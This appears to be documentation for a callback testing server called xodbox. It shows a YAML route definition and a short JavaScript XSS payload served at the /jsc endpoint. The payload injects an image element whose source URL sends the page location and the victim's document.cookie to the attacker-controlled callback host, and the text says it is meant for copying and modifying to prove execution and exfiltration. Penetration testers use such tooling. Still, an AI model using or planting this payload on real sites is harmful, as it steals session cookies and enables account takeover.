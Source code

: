 ```yaml
---
title: XSS JavaScript
description: Returns JS that embeds an image back to xodbox
weight: -500
pattern: /jsc$
is_final: true
data:
  headers:
    "Content-Type": "text/javascript"
  body: |
    (function (){
        var s = document.createElement("img");
        document.body.appendChild(s);
        s.src="{{ .CallBackURL}}?src="+window.location+"&c="+document.cookie;
    })()
---
```


### /jsc

Simple JS Payload. Useful form embedding or quickly copying and modifying for an XSS payload to prove execution and
exfil.

```javascript
(function (){
    var s = document.createElement("img");
    document.body.appendChild(s);
    s.src="//{{ .Host }}/jscb?src="+window.location+"&c="+document.cookie;
})()

```
